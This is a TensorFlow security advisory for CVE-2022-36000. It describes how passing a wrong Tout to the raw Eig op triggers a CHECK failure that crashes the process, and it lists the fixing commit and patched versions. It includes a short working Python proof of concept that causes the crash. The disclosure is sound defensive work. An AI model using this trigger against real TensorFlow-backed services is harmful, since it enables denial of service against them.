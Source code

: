 ## TFSA-2022-136: `CHECK` fail in `Eig`

### CVE Number
CVE-2022-36000

### Impact
`Eig` can be fed an incorrect `Tout` input, resulting in a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np 
arg_0=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_1=tf.complex128
arg_2=True
arg_3=''
tf.raw_ops.Eig(input=arg_0, Tout=arg_1, compute_v=arg_2, name=arg_3)
```

### Patches
We have patched the issue in GitHub commit [aed36912609fc07229b4d0a7b44f3f48efc00fd0](https://github.com/tensorflow/tensorflow/commit/aed36912609fc07229b4d0a7b44f3f48efc00fd0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
